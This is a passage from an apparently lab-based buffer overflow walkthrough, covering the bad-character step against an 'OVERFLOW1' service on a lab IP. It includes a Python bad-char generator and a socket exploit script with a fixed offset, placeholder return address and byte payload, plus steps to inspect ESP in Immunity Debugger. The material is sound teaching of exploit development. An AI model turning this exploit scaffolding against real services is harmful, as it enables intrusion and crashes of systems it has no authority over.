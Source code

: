 
As seen, it got saved as `bytearray.bin`, we now need to create a bad char string on another python script:

```python
for x in range(1, 256):
 print("\\x{:02x}".format(x), end='')
print()
```

We can use:

```
python3 badchar.py > string.txt
```

Now, we need to copy that and remove the block that reads `pattern.txt`, it will go like this:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow= "A" * offset
retn = "BBBB"
padding = ""
payload = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
print("Sending test pattern...")
s.send(bytes(buffer + "\r\n", "latin-1"))
s.close()
```


Now, restart the file again and use the script, the server will crash again and we need to look in the right side of immunity for the `ESP address`:

![Pasted image 20250529124609.png](../../IMAGES/Pasted%20image%2020250529124609.png)
